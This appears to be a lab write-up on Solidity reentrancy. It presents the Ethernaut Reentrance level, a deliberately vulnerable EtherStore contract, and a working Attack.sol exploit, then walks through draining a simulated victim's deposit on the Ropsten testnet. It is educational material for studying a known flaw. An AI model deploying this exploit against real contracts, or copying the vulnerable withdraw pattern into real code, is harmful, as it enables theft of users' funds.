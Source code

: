 # Examples

## Ethernaut

```javascript
pragma solidity ^0.4.18;
contract Reentrance {
  mapping(address => uint) public balances;
  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }
  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
  function() public payable {}
}
```

This Ethernaut level exploits this reentrancy issue and the following, additional factors that led to the [DAO hack](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/):  
• Fallback functions [can be called by anyone & execute malicious code](https://hackernoon.com/ethernaut-lvl-1-walkthrough-how-to-abuse-the-fallback-function-118057b68b56)  
• Malicious external contracts [can abuse withdrawals](https://medium.com/coinmonks/ethernaut-lvl-9-king-walkthrough-how-bad-contracts-can-abuse-withdrawals-db12754f359b)

## EtherStore

{% code title="EtherStore.sol" %}
```javascript
pragma solidity 0.4.18;
contract EtherStore {
    uint256 public withdrawalLimit = 0.1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;
    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```
{% endcode %}

Note: `withdrawLimit` set to 0.1 ether.

Deployed on Ropsten:  
[https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39](https://ropsten.etherscan.io/tx/0x34996d7830b216d93e5ecda9468fe472e485dbdb609884405e7f1b5c74533d39)

From \(Metamask\):  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To \(contract\):  
`0x52b2a43b59a39f4c863aa86da6c6fe73b33bdc73`

{% code title="Attack.sol" %}
```javascript
pragma solidity 0.4.18;

contract EtherStore {
        function depositFunds() public payable {}
        function withdrawFunds(uint256) public {}
}

contract Attack {
    //EtherStore public etherStore;
    EtherStore public etherStore;
        function Attack(address _t) public {
        etherStore = EtherStore(_t);
    }
  function attackEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 0.1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(0.1 ether)();
      // start the magic
      etherStore.withdrawFunds(0.1 ether);
  }
  function collectEther() public {
      msg.sender.transfer(this.balance);
  }
  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 0.1 ether) {
          etherStore.withdrawFunds(0.1 ether);
      }
  }
}
```
{% endcode %}

[https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f](https://ropsten.etherscan.io/tx/0x551f6d272274edbef299763343a4daea58438ef20522ed526ecfea7bff59734f)  
From:  
`0x109bb3673f445d8b0d2b04436d7b4a630b873b81`  
To:  
`0x733146fa7f8b40f4c97d946efeb7bdc9ff69ba6e`

Deposit some Eth from Metamask \(pretend this is some other user/victim\) to EtherStore \(to steal later\):  
[https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6](https://ropsten.etherscan.io/tx/0x58671521d2c0df635bf0c3986d53186e38ebe8d4f7d62c2fb5f681e0d938bec6)  
[![images/23-1.png](../../.gitbook/assets/23-1%20%281%29.png)](./)

I can now check the balance of my Metamask account by calling the `balances` mapping:

[![images/23-2.png](../../.gitbook/assets/23-2%20%281%29.png)](./)

Send 0.1 eth from the Attack.sol contract so that it has some balance to call `withdrawFunds()` later.

The following transaction sends 0.1 eth to Attack.sol's payable attackEtherStore\(\) function which will in turn deposit and subsequently withdraw funds from EtherStore.sol

From:  
`0x109Bb3673f445D8b0d2b04436D7b4a630B873B81`  
To:  
`0x733146Fa7F8B40f4c97d946EfEb7bdc9ff69BA6E`  
Tx:  
[https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a](https://ropsten.etherscan.io/tx/0xb6e7cc1fbd093691d75f0a877a5efb998591f88aac938c3e836b6de918a8594a)

[![images/23-3.png](../../.gitbook/assets/23-3%20%281%29.png)](./)

Once executed, we can see the current balance is 0.1 eth, even though 0.5 was sent

[![images/23-4.png](../../.gitbook/assets/23-4%20%281%29.png)](./)

Because 5 ether were actually sent

Notice that the first Tx in the followig image shows 0.1 ether being sent from the Attack.sol address to EtherStore.sol, followed by 5 outgoing transacions from the EtherStore.sol to Attack.Sol contract. Now Attack.sol has 0.5 eth!!!

[![images/23-5.png](../../.gitbook/assets/23-5%20%281%29.png)](./)

Also the Attack.sol contract has a massive balance on EtherStore, not sure why:

[![images/23-6.png](../../.gitbook/assets/23-6%20%281%29.png)](./)

Calling CollectEther\(\) Sends those 0.5 eth back to our wallet address!

[https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93](https://ropsten.etherscan.io/tx/0xf11dcf8de8bed562a8b4f0d977efbe2db8940adee4745c0400e8f44b95ffed93)  
[![images/23-7.png](../../.gitbook/assets/23-7%20%281%29.png)](./)

This becomes clearer is we export the internal transactions to csv:

[![images/23-8.png](../../.gitbook/assets/23-8%20%281%29.png)](./)

